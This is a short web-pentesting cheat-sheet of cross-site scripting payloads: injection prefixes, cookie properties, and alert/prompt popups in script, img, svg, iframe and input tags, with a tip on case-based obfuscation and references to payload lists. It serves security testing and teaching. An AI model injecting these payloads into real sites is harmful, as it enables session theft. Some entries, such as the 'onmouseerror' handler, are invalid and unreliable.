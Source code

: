 # JavaScript

Search Tag(s): #helpers #webapp-pentesting #cross-site-scripting

> [!INFO]
> JavaScript code snippets are case insensitive. Use this to your advantage to obfuscate it.

## 01 - Prefix

```
>
'>
">
```

## 02 - JavaScript Cookie Properties

```
document.cookie
window.origin
document.cookie
```

## 03 - JavaScript Pop-Up Message

```
<script>alert(1)</script>
<script>print()</script>

<img src="" onerror=alert(1)>
<img src=# onmouseerror=alert(1)>
<svg src="" onerror=alert(1)>
<img src=# onmouseerror=alert(1)>
<img src/onerror=prompt(document.cookie)>

<iframe src="" onerror=alert(1)>

<input autofocus onfocus="setTimeout(function() {alert(1)}, 5000);"></input><;/style<;/title<;/textarea<;/script>
```

---
## References

- [Hacktricks: XSS (Cross Site Scripting)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)

- [Hacktricks: Unicode Injection](https://book.hacktricks.xyz/pentesting-web/unicode-injection)

- [PayloadBox: XSS Payload List](https://github.com/payloadbox/xss-payload-list)

- [Cobalt: A Pentester’s Guide to Cross-Site Scripting (XSS)](https://www.cobalt.io/blog/a-pentesters-guide-to-cross-site-scripting-xss)